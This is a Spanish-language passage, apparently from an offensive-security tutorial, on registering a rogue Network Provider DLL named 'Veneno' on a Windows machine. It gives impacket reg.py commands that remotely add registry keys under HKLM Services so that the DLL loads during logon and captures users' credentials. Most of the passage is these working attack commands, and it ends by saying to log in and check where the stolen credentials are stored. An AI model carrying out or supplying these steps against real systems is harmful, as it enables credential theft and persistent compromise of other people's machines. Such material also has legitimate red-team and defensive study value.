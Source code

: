 <p align="center">
   <img src="/assets/img/NP-providers5.png">
</p>

```impacket
reg.py mokete@Windows10.brain.body add  -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider' -v Name -vt REG_SZ -vd Veneno
```

<p align="center">
   <img src="/assets/img/NP-providers6.png">
</p>

Finalmente añadiremos la ruta de la dll en los registros creados con los comandos anteriores, de esta forma cargara nuestra dll en el proceso de autenticación.
```impacket
reg.py mokete@Windows10.brain.body add -keyName 'HKLM\SYSTEM\CurrentControlSet\Services\Veneno\NetworkProvider' -v ProviderPath -vt REG_EXPAND_SZ -vd "C:\users\public\Downloads\NetworkProvider.dll"
```

<p align="center">
   <img src="/assets/img/NP-providers7.png">
</p>

Para comprobar su funcionamiento solo deberemos loguear en la maquina e ir a la ruta donde almacena las credenciales.

<p align="center">